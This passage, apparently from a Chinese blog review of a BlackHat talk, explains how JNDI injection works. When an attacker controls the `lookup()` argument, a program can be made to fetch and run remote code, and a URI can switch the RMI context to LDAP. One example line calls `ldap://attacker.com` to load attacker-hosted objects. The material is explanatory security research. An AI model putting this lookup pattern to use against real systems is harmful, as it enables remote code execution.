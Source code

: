 ![](/images/articles/2016-08-19-jndi-injection-from-theory-to-apply-blackhat-review/4.png)

这里说明了在获取 RMI 远程对象时，可以动态地加载外部代码进行对象类型实例化，而 JNDI 同样具有访问 RMI 运城对象的能力，只要其查找参数即 `lookup()` 函数的参数值可控，那么就有可能促使程序去加载和自信部署在攻击者服务器上的恶意代码。

### 0x02 JNDI 协议动态转换

前面简单的用代码和图例说明了 JNDI 的应用方式和 RMI 中的动态字节代码加载，在初始化配置 JNDI 设置时可以预先指定其上下文环境（RMI、LDAP 或者 CORBA 等）：

```java
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY,
        "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,
        "rmi://localhost:1099");
Context ctx = new InitialContext(env);
```

而在调用 `lookup()` 或者 `search()` 时，可以使用带 URI 动态的转换上下文环境，例如上面已经设置了当前上下文会访问 RMI 服务，那么可以直接使用 LDAP 的 URI 格式去转换上下文环境访问 LDAP 服务上的绑定对象：

```java
ctx.lookup("ldap://attacker.com:12345/ou=foo,dc=foobar,dc=com");
```

在议题所提供的 Write-Up 里有提供详细远离的代码来说明为什么可以使用绝对路径 URI 去动态地转换上下文环境：

```java
public Object lookup(String name) throws NamingException {
    return getURLOrDefaultInitCtx(name).lookup(name);
}
```

`getURLOrDefaultInitCtx()` 函数的具体代码实现为：
